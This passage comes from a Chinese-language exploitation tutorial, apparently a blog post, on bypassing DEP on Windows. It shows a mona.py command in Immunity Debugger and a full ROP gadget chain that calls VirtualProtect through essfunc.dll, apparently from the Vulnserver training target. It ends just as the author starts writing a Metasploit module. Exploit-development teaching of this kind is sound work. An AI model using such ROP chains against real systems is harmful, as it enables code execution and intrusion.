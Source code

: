 在ImmunityDebugger命令行输入如下命令：

```
!mona rop -m *.dll -cp nonull
```

![img](https://img-blog.csdnimg.cn/20190117125843386.png)

执行后会在ImmunityDebugger安装目录下生成一个rop_chains.txt文件

![img](https://img-blog.csdnimg.cn/20190117125857534.png)

我们打开rop_chains.txt文件，找到如下代码片段：

```
def create_rop_chain()

  # rop chain generated with mona.py - www.corelan.be
  rop_gadgets = 
  [
    0x77bfc038,  # POP ECX # RETN [msvcrt.dll] 
    0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
    0x77d5373d,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [USER32.dll] 
    0x7c96d192,  # XCHG EAX,ESI # RETN [ntdll.dll] 
    0x77c11c54,  # POP EBP # RETN [msvcrt.dll] 
    0x625011bb,  # & jmp esp [essfunc.dll]
    0x77c04fcd,  # POP EAX # RETN [msvcrt.dll] 
    0xfffffdff,  # Value to negate, will become 0x00000201
    0x77e6d222,  # NEG EAX # RETN [RPCRT4.dll] 
    0x77dc560a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll] 
    0x77f01564,  # POP EAX # RETN [GDI32.dll] 
    0xffffffc0,  # Value to negate, will become 0x00000040
    0x77e6d222,  # NEG EAX # RETN [RPCRT4.dll] 
    0x77ef24c8,  # XCHG EAX,EDX # RETN [GDI32.dll] 
    0x77c0eb4f,  # POP ECX # RETN [msvcrt.dll] 
    0x7c99f17e,  # &Writable location [ntdll.dll]
    0x77c17641,  # POP EDI # RETN [msvcrt.dll] 
    0x77e6d224,  # RETN (ROP NOP) [RPCRT4.dll]
    0x77c04fcd,  # POP EAX # RETN [msvcrt.dll] 
    0x90909090,  # nop
    0x60fe4479,  # PUSHAD # RETN [hnetcfg.dll] 
  ].flatten.pack("V*")

  return rop_gadgets

end
```

![img](https://img-blog.csdnimg.cn/2019011712593726.png)

之后，将这段代码拷贝到我们自己编写的渗透模块中。

## 编写绕过DEP的Metasploit模块脚本dep_attack_by_binghe.rb
